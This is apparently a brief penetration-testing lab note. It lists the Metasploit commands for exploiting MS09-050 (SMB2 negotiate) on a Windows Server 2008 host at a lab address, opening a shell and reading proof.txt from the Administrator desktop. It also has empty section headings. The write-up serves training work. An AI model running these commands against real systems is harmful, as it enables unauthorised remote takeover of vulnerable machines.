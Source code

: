 exploit/windows/smb/ms09_050_smb2_negotiate_func_index
```bash
msfconsole
search ms09_050 # target was running Server 2008 SP1 32-bit
use exploit/windows/smb/ms09_050_smb2_negotiate_func_index
set RHOST 192.168.54.43
set LHOST tun0
run # and wait 180 seconds
shell
whoami
cd C:\Users\Administrator\Desktop\
type proof.txt
```

# Explore

# Escalate

# Effect
